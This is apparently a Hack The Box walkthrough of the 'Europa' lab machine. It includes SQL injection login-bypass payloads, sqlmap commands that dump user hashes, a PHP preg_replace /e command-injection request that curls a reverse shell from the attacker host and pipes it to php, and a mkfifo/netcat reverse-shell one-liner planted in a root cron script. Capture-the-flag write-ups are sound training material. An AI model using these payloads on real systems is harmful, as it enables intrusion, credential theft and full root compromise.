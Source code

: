 ```yaml
---
title: Europa
author: fieldraccoon
date: 2020-07-11 
categories: [hack-the-box, linux]
tags: [hack-the-box, sql, sqli, medium, burpsuite]
math: true
---
```


Europa was a medium linux box that required an sql injection to bypass login followed by a reverse shell in the place of parameters using burpsuite, root involved enumeration of a cronjobs file being ran as root to get a shell.

# USER

## enumeration

Of course we start off with an nmap scan to reveal 2 main ports needed for this challenge.

```bash
root@kali:/home/kali/boxes/europa# nmap -sC -sV -o nmap 10.10.10.22
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-11 10:07 EDT
Nmap scan report for 10.10.10.22
Host is up (0.021s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6b:55:42:0a:f7:06:8c:67:c0:e2:5c:05:db:09:fb:78 (RSA)
|   256 b1:ea:5e:c4:1c:0a:96:9e:93:db:1d:ad:22:50:74:75 (ECDSA)
|_  256 33:1f:16:8d:c0:24:78:5f:5b:f5:6d:7f:f7:b4:f2:e5 (ED25519)
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| ssl-cert: Subject: commonName=europacorp.htb/organizationName=EuropaCorp Ltd./stateOrProvinceName=Attica/countryName=GR
| Subject Alternative Name: DNS:www.europacorp.htb, DNS:admin-portal.europacorp.htb
| Not valid before: 2017-04-19T09:06:22
|_Not valid after:  2027-04-17T09:06:22
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Sql injection

In the SSL cert for https we can see that there is a subdomain called `admin-portal` running on the domain `europacorp.htb`. 

We add both of theese to our hosts file and enumerate the site on https.

We are greeted by a login page and we intercept the request with burpsuite to take a look at the parameters that it is executing.

It simply just asks for an email and a username. We start off with some simple sql injection tests to see if the site is vulnerable.

We get a redirect to a dashboard page with the parameters:
```bash
email=`UNION ALL SELECT NULL,NULL,NULL,NULL,NULL##&password=`UNION ALL SELECT NULL,NULL,NULL,NULL,NULL#
```

This is one way of doing it but i will cover another method using sqlmap.

As we know that the site is vulnerable we test params with sqlmap.

Theese are the commands that i used:
```bash
sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever"

sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever" –dbs

sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever" –tables -D admin

sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever" –tables –columns -D admin -T users

sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever" -D admin -T users –dump password
```

The final command brings us the password dump:
```bash
+----+----------------------+--------+---------------+----------------------------------+
| id | email                | active | username      | password                         |
+----+----------------------+--------+---------------+----------------------------------+
| 1  | admin@europacorp.htb | 1      | administrator | 2b6d315337f18617ba18922c0b9597ff |
| 2  | john@europacorp.htb  | 1      | john          | 2b6d315337f18617ba18922c0b9597ff |
+----+----------------------+--------+---------------+----------------------------------+
```

We decrypt the password and login with `admin@europacorp.htb:SuperSecretPassword!` , note that this is an md5 hash that can be decrypted with an online tool.

After logging in we navigate to tools where we can see what seems to be an openvpn config file.

```bash
"openvpn": {
        "vtun0": {
                "local-address": {
                        "10.10.10.1": "''"
                },
                "local-port": "1337",
                "mode": "site-to-site",
                "openvpn-option": [
                        "--comp-lzo",
                        "--float",
                        "--ping 10",
                        "--ping-restart 20",
                        "--ping-timer-rem",
                        "--persist-tun",
                        "--persist-key",
                        "--user nobody",
                        "--group nogroup"
                ],
                "remote-address": "ip_address",
                "remote-port": "1337",
                "shared-secret-key-file": "/config/auth/secret"
        },
        "protocols": {
                "static": {
                        "interface-route": {
                                "ip_address/24": {
                                        "next-hop-interface": {
                                                "vtun0": "''"
                                        }
                                }
                        }
                }
        }
}

```

We press generate and intercept this again with burpsuite.

```bash
pattern=%2Fip_address%2F&ipaddress=&text=%22openvpn%22%3A+%7B%0D%0A++++++++%22vtun0%22%3A+%7B%0D%0A++++++++++++++++%22local-address%22%3A+%7B%0D%0A++++++++++++++++++++++++%2210.10.10.1%22%3A+%22%27%27%22%0D%0A++++++++++++++++%7D%2C%0D%0A++++++++++++++++%22local-port%22%3A+%221337%22%2C%0D%0A++++++++++++++++%22mode%22%3A+%22site-to-site%22%2C%0D%0A++++++++++++++++%22openvpn-option%22%3A+%5B%0D%0A++++++++++++++++++++++++%22--comp-lzo%22%2C%0D%0A++++++++++++++++++++++++%22--float%22%2C%0D%0A++++++++++++++++++++++++%22--ping+10%22%2C%0D%0A++++++++++++++++++++++++%22--ping-restart+20%22%2C%0D%0A++++++++++++++++++++++++%22--ping-timer-rem%22%2C%0D%0A++++++++++++++++++++++++%22--persist-tun%22%2C%0D%0A++++++++++++++++++++++++%22--persist-key%22%2C%0D%0A++++++++++++++++++++++++%22--user+nobody%22%2C%0D%0A++++++++++++++++++++++++%22--group+nogroup%22%0D%0A++++++++++++++++%5D%2C%0D%0A++++++++++++++++%22remote-address%22%3A+%22ip_address%22%2C%0D%0A++++++++++++++++%22remote-port%22%3A+%221337%22%2C%0D%0A++++++++++++++++%22shared-secret-key-file%22%3A+%22%2Fconfig%2Fauth%2Fsecret%22%0D%0A++++++++%7D%2C%0D%0A++++++++%22protocols%22%3A+%7B%0D%0A++++++++++++++++%22static%22%3A+%7B%0D%0A++++++++++++++++++++++++%22interface-route%22%3A+%7B%0D%0A++++++++++++++++++++++++++++++++%22ip_address%2F24%22%3A+%7B%0D%0A++++++++++++++++++++++++++++++++++++++++%22next-hop-interface%22%3A+%7B%0D%0A++++++++++++++++++++++++++++++++++++++++++++++++%22vtun0%22%3A+%22%27%27%22%0D%0A++++++++++++++++++++++++++++++++++++++++%7D%0D%0A++++++++++++++++++++++++++++++++%7D%0D%0A++++++++++++++++++++++++%7D%0D%0A++++++++++++++++%7D%0D%0A++++++++%7D%0D%0A%7D%0D%0A++++++++++++++++++++++++++++++++
```

This is what it brings back, essentially url encoded the config above with a pattern param and ip address parameter. We tweak this to get command execution.
```bash
pattern=/ip_address/e&ipaddress=system('whoami')&text=....
```

This brings back the result `www-data` so we know we can continue with this.

After alot of tweaking we change it to get a file from our box and execute it.
```bash
pattern=/vtun0/e&ipaddress=system('curl+http%3a//10.10.xx.xx%3a8000/php-reverse-shell.php+|+php')&text=...
```

We get a connection on our netcat listener and we get a shell on the box!

## User flag

```bash
kali@kali:~/boxes/europa$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.22] 33246
Linux europa 4.4.0-81-generic #104-Ubuntu SMP Wed Jun 14 08:17:06 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 18:06:16 up 4 min,  0 users,  load average: 0.01, 0.08, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cd /home
$ ls
john
$ cd john
$ cat user.txt
2f8d40{...}
```

# ROOT

## enumeration 

After running `pspy` on the system we find a binary `clearlogs` running as root on the system. We read the file to take a look at it.

>clearlogs:
```php
#!/usr/bin/php
<?php
$file = '/var/www/admin/logs/access.log';
file_put_contents($file, '');
exec('/var/www/cmd/logcleared.sh');
?>
```
## Exploitation

We can see that it is running the file `logcleared.sh` in the system so we will see if we can change the contents of that file to give us a root shell.

We echo a reverse shell to the file and wait a few seconds for it to execute and we get our shell.
```bash
$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 9001 > /tmp/f' > /var/www/cmd/logcleared.sh
$ chmod 777 /var/www/cmd/logcleared.sh


root@kali:/home/kali/boxes/europa# nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.22] 33248
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
7f19438b275{...}
```

Thanks for reading hope that you enjoyed.
